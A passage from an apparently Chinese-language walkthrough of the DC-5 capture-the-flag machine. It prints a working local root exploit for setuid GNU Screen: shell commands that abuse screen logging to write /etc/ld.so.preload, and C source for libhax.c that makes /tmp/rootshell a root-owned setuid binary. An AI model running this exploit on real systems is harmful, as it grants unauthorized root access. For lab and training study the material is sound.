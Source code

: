 ```
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell

```

<img src="https://img-blog.csdnimg.cn/4519ff7c912548f7b17cdc7a784f2088.png" alt="在这里插入图片描述">

#### 4.将第一部分内容写到libhax.c并编译

>  
 按照脚本提示，先将第一部分内容写到libhax.c中(一共有三个部分) 创建一个文件夹存放三个部分的脚本 


```
mkdir dc-5
cd dc-5

```

<img src="https://img-blog.csdnimg.cn/dfbf3362874c447688c5eef766e65480.png" alt="在这里插入图片描述">

>  
 创建libhax.c文件，用vim编辑，当然，也可以直接使用vim创建文件 


```
touch libhax.c
vim libhax.c

```

>  
 写入如下文件 


```
#include &lt;stdio.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;unistd.h&gt;
__attribute__ ((__constructor__))
void dropshell(void){<!-- -->
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}

```

<img src="https://img-blog.csdnimg.cn/cf8670e886ef47b28151b486754e89d3.png" alt="在这里插入图片描述">
